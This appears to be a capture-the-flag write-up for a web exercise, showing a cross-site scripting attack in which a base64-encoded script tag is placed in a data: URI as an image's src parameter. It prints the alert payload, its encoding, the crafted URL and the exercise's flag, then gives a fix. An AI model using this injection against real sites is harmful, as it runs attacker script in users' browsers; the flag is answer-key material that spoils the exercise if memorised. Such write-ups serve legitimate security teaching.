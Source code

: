 # Where:
    /
# How:

-Click the 3rd image on the index page

-Encode the following script into base 64 using [Base 64](https://www.base64encode.org/)

    <script>alert('this works')</script>

-Get following hash:

    ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Change the src value from 'nsa' to:

    data:text/html;base64,ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Press *Enter* to go to url with altered parameter to receive the flag.

# Flag:
    928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# Possible abuses:

Can trick the client-side into running a malicious script.

# Fix:

Don't take the source of an image as a variable in the url.<br>
Rather have source stored somewhere secure and use ids to tell back end which source to use.<br>
If you have to send the source rather use POST.<br>